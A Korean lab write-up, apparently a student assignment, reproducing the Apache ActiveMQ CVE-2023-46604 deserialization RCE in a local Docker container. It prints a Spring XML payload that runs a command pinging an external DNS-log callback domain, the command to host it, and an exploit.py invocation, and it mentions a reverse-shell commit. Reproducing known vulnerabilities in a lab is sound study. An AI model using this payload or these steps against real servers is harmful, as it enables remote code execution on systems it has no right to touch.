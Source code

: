 # 개요

- **CVE ID**: CVE-2023-46604
- **대상 소프트웨어**: Apache ActiveMQ ≤ 5.15.14
- **취약점 종류**: Remote Code Execution (RCE)
- **심각도**: Critical (CVSS 9.8)
- **요약**:
    
    Apache ActiveMQ의 OpenWire 프로토콜 처리 중 역직렬화된 객체를 검증 없이 실행하면서, 원격에서 임의의 시스템 명령을 실행할 수 있는 취약점입니다.
    

---

# 실습 환경 구성

### ✅ 사용 환경

- Windows 11 + Docker Desktop
- Python 내장 HTTP 서버
- GitHub (Fork 및 커밋용)

### ✅ Docker 이미지 실행

```bash
docker run -d --name activemq -p 8161:8161 -p 61616:61616 rmohr/activemq:5.15.9-alpine
```

- 관리자 웹 접속 주소: `http://localhost:8161`
- 로그인 정보: `admin / admin`

---

## **Docker 이미지 다운로드 완료**

```
docker pull rmohr/activemq:5.15.9-alpine
```


---

## **컨테이너 실행 확인**

```
docker ps
```


---

## **ActiveMQ 웹 UI 접속 확인**

- `http://localhost:8161` 접속


---

# 공격 준비 (PoC 설정)

### ✅ `poc.xml`

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>ping</value>
        <value>abcxyz.dnslog.cn</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

---

### ✅ HTTP 서버 실행

```bash
python -m http.server 8000
```


---

# 익스플로잇 수행

### ✅ exploit.py 실행

```bash
python exploit.py -i 127.0.0.1 -p 61616 -u http://127.0.0.1:8000/poc.xml
```


---

### ✅ 공격 성공 여부 확인


- 실습 당시 Interactsh가 도메인을 발급하지 못해 실제 요청 수신 로그는 확인하지 못하였지,  exploit 스크립트가 정상 동작하고 서버 응답도 있었기 때문에 PoC 실행 흐름은 재현을 완료하였습니다.

---

# GitHub

- 레포지토리: https://github.com/myonggyu/whs
- 커밋 내역:
    - `feat: add PoC XML with reverse shell`
    - `feat: add exploit.py`
    - `docs: update README.md`
- `exploit.py`, `poc.xml`, `docker-compose.yml` 포함
- 커밋 및 파일 확인 가능

> 🖼️ github_commit.png
> 
> 
> 🖼️ `github_structure.png`
> 

---

# 정리

<aside>
💡

이번 과제를 통해 **Apache ActiveMQ의 RCE 취약점(CVE-2023-46604)** 을 직접 재현하며, **실제 원격 코드 실행(Exploit) 흐름**을 경험해볼 수 있었습니다.

Docker를 이용해 빠르게 환경을 구성하고, `exploit.py`를 통해 XML 기반 페이로드를 전송하면서 ActiveMQ 서버가 이를 실행하는 구조를 체험하였습니다. 특히 **역직렬화(Deserialization)** 와 관련된 보안 취약점이 얼마나 쉽게 악용될 수 있는지를 확인한 점이 매우 인상 깊었습니다.

</aside>
